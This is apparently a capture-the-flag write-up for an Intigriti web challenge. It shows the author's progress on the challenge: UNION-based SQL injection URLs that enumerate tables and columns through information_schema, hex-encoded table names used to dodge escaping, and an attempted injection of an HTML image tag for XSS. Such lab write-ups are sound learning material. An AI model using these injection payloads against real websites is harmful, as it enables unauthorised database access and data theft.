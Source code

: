 <p>• Can execute mysql functions,Checked with database(),user(),version() at first! and we are sitting on the 'blog' database.</p>

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/reflect.png">

<p>• Dumping the table names of the database blog;</p>

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/tablename.png">

```
Query used : https://challenge-0722.intigriti.io/challenge/challenge.php?month=1%20union%20select%20null,group_concat(table_name),null,null,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()--%20-#
```

<p>• We came to an understanding there are three tables "post,user,youtube"! Now onto dumping the columns and contents.</p>

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/whole.png">

<p>• The above is the structure database > tables > column </p>


```
Queries Used:
https://challenge-0722.intigriti.io/challenge/challenge.php?month=1 union select null,column_name,null,null,null from information_schema.columns where table_name=0x75736572-- -

https://challenge-0722.intigriti.io/challenge/challenge.php?month=1 union select null,column_name,null,null,null from information_schema.columns where table_name=0x706f7374-- -

https://challenge-0722.intigriti.io/challenge/challenge.php?month=1 union select null,column_name,null,null,null from information_schema.columns where table_name=0x796f7574756265-- -
```
<p>• Note : I hex encoded the values of table name since the query escapes any special characters and throws error.</p>

<p>• After spending some time on examining data from each column, nothing been found except i was rickrolled on youtubeid :| </p>

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/rickroll.png">

<p>• It went on limelight that this challenge has nothing to do with data dump.</p>

<p>• Then tried to inject my content on the reflected 2,3 and 5th columns.</p>

```
Query used : 
https://challenge-0722.intigriti.io/challenge/challenge.php?month=3 union select 1,0x3c696d67207372633d313e,0x3c696d67207372633d313e,4,0x3c696d67207372633d313e -- -
```
 
<p>• It went really bad that all the special characters were filtered,thought might be the work of htmlspecialchars function on php :|</p>

<p>• It was the time i was stuck and tried things like load_file function :trollface: </p>

<p>• Then i tried to bypass the encoding with unicodes,double encoding and searched if there is any possible bypasses for htmlsepcialchars!</p>
